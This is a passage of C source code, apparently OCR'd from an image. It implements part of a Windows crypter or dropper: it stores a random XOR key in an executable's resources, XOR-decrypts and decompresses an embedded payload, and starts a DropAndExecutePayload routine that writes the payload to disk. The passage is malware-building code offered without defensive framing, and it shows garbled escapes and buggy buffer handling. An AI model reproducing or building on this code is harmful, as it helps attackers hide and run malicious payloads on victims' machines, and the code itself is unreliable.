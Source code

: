 ```
    if (UpdateResource(hUpdate, RT_RCDATA, MAKEINTRESOURCE(KEY_RSRC_ID), MAKELANGID(LANG_NEUTRAL, SUBLANG_NEUTRAL), fs-&gt;pKey, KEY_LEN) == FALSE) `{`
        Debug("Update resource error: %lun", GetLastError());
        return FALSE;
    `}`
    if (EndUpdateResource(hUpdate, FALSE) == FALSE) `{`
        Debug("End update resource error: %lun", GetLastError());
    `}`
    return TRUE;
`}`
BOOL GenerateKey(FileStruct *fs) `{`
    fs-&gt;pKey = (PBYTE)malloc(KEY_LEN);
    if (fs-&gt;pKey == NULL) return FALSE;
    // initialize crypto service provider
    HCRYPTPROV hProv = NULL;
    if (CryptAcquireContext(&amp;hProv, NULL, NULL, PROV_RSA_FULL, 0) == FALSE) `{`
        Debug("Crypt aquire context error: %lun", GetLastError());
        free(fs-&gt;pKey);
        return FALSE;
    `}`
    // generate secure bytes
    //Debug("Generating cryptographically secure bytes...n");
    if (CryptGenRandom(hProv, KEY_LEN, fs-&gt;pKey) == FALSE) `{`
        Debug("Generate random key error: %lun", GetLastError());
        free(fs-&gt;pKey);
        return FALSE;
    `}`
    /*
    Debug("Using key: ");
    for (int i = 0; i &lt; KEY_LEN; i++)
        Debug("0x%02x ", fs-&gt;pKey[i]);
    Debug("n");
    */
    // clean up
    CryptReleaseContext(hProv, 0);
    return TRUE;
`}`
// XOR
BOOL DecryptPayload(FileStruct *fs) `{`
    PBYTE pDecryptPayloadedBuffer = (PBYTE)malloc(fs-&gt;dwBufSize);
    if (pDecryptPayloadedBuffer == NULL) return FALSE;
    for (DWORD i = 0; i &lt; fs-&gt;dwBufSize; i++)
        pDecryptPayloadedBuffer[i] = fs-&gt;pBuffer[i] ^ fs-&gt;pKey[i % KEY_LEN];
    fs-&gt;pBuffer = pDecryptPayloadedBuffer;
    return TRUE;
`}`
// XOR
BOOL Encrypt(FileStruct *fs) `{`
    return DecryptPayload(fs);
`}`
BOOL DecompressPayload(FileStruct *fs) `{`
    PBYTE pDecompressedBuffer = (PBYTE)malloc(fs-&gt;dwFileSize);
    ULONG ulDecompressedBufSize;
    uncompress(pDecompressedBuffer, &amp;ulDecompressedBufSize, fs-&gt;pBuffer, fs-&gt;dwFileSize);
    fs-&gt;pBuffer = pDecompressedBuffer;
    fs-&gt;dwBufSize = ulDecompressedBufSize;
    return TRUE;
`}`
VOID DropAndExecutePayload(FileStruct *fs, LPCSTR szFileName) `{`
    DWORD dwWritten;
    HANDLE hFile = CreateFile(szFileName, GENERIC_WRITE, 0, NULL, CREATE_ALWAYS, FILE_ATTRIBUTE_NORMAL, NULL);
    WriteFile(hFile, fs-&gt;pBuffer, fs-&gt;dwFileSize, &amp;dwWritten, NULL);
```